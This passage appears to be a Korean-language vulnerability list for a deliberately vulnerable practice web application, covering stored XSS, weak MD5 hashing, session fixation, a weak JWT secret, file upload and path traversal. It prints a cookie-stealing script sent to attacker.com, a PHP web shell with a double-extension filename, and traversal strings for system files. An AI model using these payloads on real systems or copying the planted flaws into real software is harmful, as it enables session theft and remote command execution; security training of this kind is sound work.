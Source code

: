 #### 2.2 Stored XSS
**위치**: 상품 설명, 댓글 시스템
**설명**: 사용자 입력이 데이터베이스에 저장되고 다른 사용자에게 표시
**예제 페이로드**:
```html
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie
</script>
```

### 3. 인증 및 세션 관리 (Authentication & Session Management)

#### 3.1 Weak Password Hashing
**위치**: `/backend/src/models/User.js`
**설명**: MD5 해싱 사용 (매우 취약)
**테스트 방법**:
1. 회원가입 후 데이터베이스에서 패스워드 해시 확인
2. 온라인 MD5 디코더로 복호화 시도

#### 3.2 Session Fixation
**위치**: `/backend/src/middleware/session.js`
**설명**: 로그인 후 세션 ID가 변경되지 않음
**테스트 방법**:
1. 로그인 전 세션 ID 확인
2. 로그인 후 동일한 세션 ID 유지되는지 확인

#### 3.3 JWT Secret Exposure
**위치**: `/backend/.env`
**설명**: 약한 JWT 시크릿 키 사용
**취약점**: `JWT_SECRET=weak_secret`

### 4. 파일 업로드 취약점 (Unrestricted File Upload)

#### 4.1 Arbitrary File Upload
**위치**: `/backend/src/routes/upload.js`
**설명**: 파일 확장자 및 MIME 타입 검증 부족
**테스트 파일**:
```php
<?php
system($_GET['cmd']);
?>
```
**파일명**: `shell.php.jpg` (더블 확장자)

#### 4.2 Path Traversal
**위치**: 파일 업로드 경로 처리
**예제 페이로드**:
```
../../../etc/passwd
..\..\..\..\windows\system32\drivers\etc\hosts
```
